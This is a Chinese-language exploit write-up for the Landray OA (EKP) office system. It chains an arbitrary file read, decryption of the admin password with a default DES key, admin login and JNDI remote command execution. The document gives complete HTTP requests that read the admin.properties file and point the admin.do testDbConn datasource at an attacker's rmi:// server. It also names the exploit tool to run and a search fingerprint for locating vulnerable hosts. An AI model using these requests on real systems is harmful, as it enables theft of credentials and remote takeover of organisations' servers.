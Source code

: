 # 蓝凌OA admin.do JNDI远程命令执行

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

利用 **蓝凌OA custom.jsp 任意文件读取漏洞** 读取配置文件

```plain
/WEB-INF/KmssConfig/admin.properties
```

发送请求包

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![img](../../../.vuepress/public/img/lanling-4.png)



获取password后，使用 DES方法 解密，默认密钥为 **kmssAdminKey**

![img](../../../.vuepress/public/img/lanling-5.png)



访问后台地址使用解密的密码登录

```plain
http://xxx.xxx.xxx.xxx/admin.do
```

![img](../../../.vuepress/public/img/lanling-6.png)



<a-alert type="success" message="使用工具执行命令: https://github.com/welk1n/JNDI-Injection-Exploit" description="" showIcon>
</a-alert>
<br/>

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

运行工具监听端口 ping dnslog测试 命令执行 (蓝凌OA 默认使用的是 JDK 1.7)

```shell
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: 
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```



![img](../../../.vuepress/public/img/lanling-7.png)